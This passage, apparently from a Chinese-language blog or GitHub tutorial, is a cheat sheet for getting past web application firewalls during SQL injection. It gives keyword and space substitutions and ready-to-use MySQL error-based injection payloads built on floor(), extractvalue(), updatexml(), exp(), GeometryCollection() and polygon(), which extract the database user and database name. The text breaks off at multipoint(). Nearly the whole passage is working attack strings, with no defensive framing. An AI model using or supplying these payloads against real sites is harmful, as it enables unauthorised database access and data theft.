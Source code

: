 ![upload successful](/images/pasted-65.png)

>ps：使用时需要在转换后的字符串前加0x，作为告诉数据库这里是十六进制的标识。这个方法用在不能使用引号时挺好的。

---
# 4.	基本符号替换
>用&&替换and	
>用||替换or	
>用/**/替换空格	
>URL栏中用+替换空格	

# 5.	报错注入替换函数绕过

（网站只检测一部分热门的函数，不检测一些冷门的函数）

全部以select user() 为例：
### 1.floor()
```
id = 1 and (select 1 from  (select count(*),concat(user(),floor(rand(0)*2))x from  information_schema.tables group by x)a)
```
### 2.extractvalue()
```
id = 1 and extractvalue(1, concat(0x7e,(select user())))
id = 1 and extractvalue(1,concat(char(126),database()))
```
### 3.updatexml()
```
id = 1 and updatexml(1,concat(0x7e,(select user())),1)
```
### 4.exp()
```
exp(~(select * from(select user()))a))
```
### 5.总体可以归为一处的函数
(1)	GeometryCollection()
```
id = 1 AND GeometryCollection((select * from (select * from(select user())a)b))
```
(2)	polygon()
```
id =1 AND polygon((select * from(select * from(select user())a)b))
```
(3)	multipoint()